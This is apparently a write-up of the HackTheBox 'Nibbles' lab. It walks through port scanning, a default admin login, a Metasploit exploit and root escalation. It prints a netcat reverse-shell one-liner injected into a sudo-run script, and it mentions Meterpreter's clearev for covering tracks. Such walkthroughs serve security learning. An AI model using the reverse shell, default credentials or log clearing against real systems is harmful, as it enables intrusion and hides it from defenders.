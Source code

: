 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.
Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Intersting. /nibbleblog/
Therefore we use nibble against /nibbleblog/. DIRB is a Web Content Scanner.
`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/lYBc5oS.png)

It shows admin.php, which is an login interface.

![1adm](https://i.imgur.com/undefined.png)


## 2. Using the basics to get access

Before trying to break into it, always try some defaults. admin:nibbles

![1break](https://i.imgur.com/17wiJUm.png)

We're in! After a while of searching I decided to check for exploits. We just searched for nibble. 
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

## 3. Exploit

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.
I found a zip within home/nibbler with a monitor.sh in it.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









